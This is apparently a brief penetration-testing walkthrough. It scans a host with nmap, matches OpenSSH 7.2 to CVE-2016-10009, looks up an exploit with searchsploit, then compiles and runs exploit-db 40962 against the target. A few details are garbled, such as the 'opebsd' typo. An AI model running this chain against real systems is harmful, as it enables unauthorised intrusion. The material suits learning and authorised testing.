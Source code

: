 nmap -O 10.1.1.1
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-16 12:00
Nmap scan report for 10.1.1.1
Host is up (0.0010s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.1
```


nmap --script vuln 10.1.1.1
```
PORT    STATE   SERVICE
22/tcp  open    ssh
| vulners:
| cpe:/a:opebsd:openssh:7.2p2
|    CVE-2016-10009  7.5  https://vulners.com/cve/CVE-2016-10009
```

# apt-get install exploitdb   or    brew install exploitdb   to get searchsploit program
# searchsploit <service> <version>
searchsploit openssh 7.2
```
----------------------------------------- ----------------------------------------
 Exploit Title                           |  Path
----------------------------------------- ----------------------------------------
OpenSSH 7.2p1 - (Ubuntu 16.04.1) 'Accepted | /usr/share/exploitdb/exploits/linux/remote/40962.c
----------------------------------------- ----------------------------------------
```

#Copy the exploit:
```
cp /usr/share/exploitdb/exploits/linux/remote/40962.c .
gcc 40962.c -o openssh_exploit
./openssh_exploit 10.1.1.1 22
```

